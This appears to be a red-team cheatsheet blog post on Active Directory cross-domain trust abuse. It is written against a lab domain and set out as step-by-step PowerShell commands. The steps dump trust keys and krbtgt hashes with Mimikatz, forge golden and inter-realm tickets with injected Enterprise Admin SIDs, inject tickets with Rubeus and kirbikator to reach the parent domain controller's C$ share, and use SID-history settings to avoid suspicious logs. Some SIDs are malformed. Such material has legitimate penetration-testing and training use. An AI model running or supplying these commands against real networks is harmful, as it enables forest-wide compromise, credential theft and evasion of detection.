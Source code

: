 ```yaml
---
title: Across Domain Trusts cheatsheet
subtitle: Trusts are relationships between domains or forests which allows users of one domain or forest to access resources in the other domain or forest.

# Summary for listings and search engines
summary: Trusts are relationships between domains or forests which allows users of one domain or forest to access resources in the other domain or forest.

# Link this post with a project
projects: []

# Date published
date: '2022-09-08T00:00:00Z'

# Date updated
lastmod: '2022-09-08T00:00:00Z'

# Is this an unpublished draft?
draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**Giovanni Pecoraro**](https://unsplash.com/photos/CpkOjOcXdUY)'
  focal_point: ''
  placement: 2
  preview_only: false

authors:
  - admin

tags:
  - Red Teaming
  - Windows
  - Active Directory
  - Trusts
  
categories:
  - Cyber Security

---
```


Domains in same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains.  There are two ways of escalating privileges between two domains of same forest: 

- Krbtgt hash 
- Trust Tickets

## Child to Parent using Trust Tickets

1. Look for [In] trust key from child to parent:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\cybercorp$"'
```

2. An inter-realm TGT can be forged: 

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"Kerberos::golden /user:[USER] /domain:[CURRENT_DOMAIN_FQDN] /sid:[CURRENT_DOMAIN_SID] /sids:[ENTERPRISE_ADMINS_GROUP_SID] /rc4:[TRUST_KEY_NTLM] /service:krbtgt /target:[PARENT_DOMAIN_FQDN] /ticket:[TICKET_EXPORT_PATH]"'

Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-15-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:cybercorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```

| Parameter	| Optional| Description |
| --------------| ------- | ----------- |
| **/user**	| No    | Username to impersonate |
| **/domain**	| No	| Domain FQDN |
| **/sid**	| No	| SID of the current domain |
| **/sids**	| No	| SID of the enterprise admins group of the parent domain |
| **/rc4**	| No	| NTLM (RC4) hash of the trust key account. Use **/aes128** and **/aes256** for using AES keys |
| **/target**	| No	| Target server FQDN |
| **/service**	| No	| Target service in the parent domain (krbtgt) |
| /id		| Yes	| User RID (default 500) |
| /groups	| Yes	| Group RID (default 513 512 520 518 519) |
| /startoffset	| Yes	| When the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future |
| /endin	| Yes	| Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax	| Yes	| Ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt	| 	| Injects the ticket into the current PowerShell process (no need to save the ticket on disk) |
| **/ticket**	|	| Saves the ticket to a file for later use |

3. Get a TGS for a service (e.g. CIFS) in the target domain by using the forged trust ticket. Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well:

```powershell
# asktgs.exe 
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/cybercorp-dc.cybercorp.local
```

4. Use the TGS to access the targeted service (may need to use it twice). 

```powershell
# kirbikator.exe
.\kirbikator.exe lsa .\CIFS.cybercorp-dc.cybercorp.local.kirbi
```

5. Access the file share on the parent domain DC:

```powershell
ls \\cybercorp-dc.cybercorp.local\c$
```

Alternatively, it is possible to use `Kekeo` to ask for the TGS:
```powershell
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:CIFS/cybercorp-dc.cybercorp.local /dc:cybercorp-dc.cybercorp.local /ptt
```

## Child to Parent using krbtgt hash

1. Look for krbtgt hash:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
```

2. Generate a Golden Ticket forcing the SID History parameter. We will abuse SID history once again. The mimkatz option "/sids" is forcefully setting the SID History for the Enterprise Admin group for cyberlab.cybercorp.local that is the Forest Enterprise Admin Group:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:[CURRENT_DOMAIN_FQDN] /sid:[CURRENT_DOMAIN_SID] /sids:[ENTERPRISE_ADMINS_GROUP_SID] /krbtgt:[KRBTGT_NTLM_HASH] /ticket:[TICKET_EXPORT_PATH]"'

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:cyberlab.cybercorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-15-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

3. Pass the ticket to the current session on any machine of the current domain:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"' 
```

4. Now, it is possible to access to machine services in the forest root domain:

```powershell
ls \\cybercorp-dc.cybercorp.local\c$
gwmi -class win32_operatingsystem -ComputerName cybercorp-dc.cybercorp.local
```

In order to avoid suspicious logs, impersonate Domain Controller account add to the SID History the SIDs of parent Domain Controllers group and Enterprise Domain Controllers group and set the group to 516 (Enterprise Admins group).

| Group				| SID			  |
| ------------------------------| ----------------------- | 
| Domain Controllers 		| S-1-5-21-[DOMAIN_ID]-516|
| Enterprise Domain Controllers	| S-1-5-9		  |

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:[DC_NAME]$ /domain:[CURRENT_DOMAIN_FQDN] /sid:[CURRENT_DOMAIN_SID] /groups:516 /sids:[PARENT_DOMAIN_CONTROLLERS_GROUP_SID],[ENTERPRISE_DOMAIN_CONTROLLERS_GROUP_SID] /krbtgt:[KRBTGT_HASH] /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /user:dc$ /domain:cyberlab.cybercorp.local /sid:S-1-5-211874506631-3219952063-538504511 /groups:516 /sids:S-1-521-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'
```
---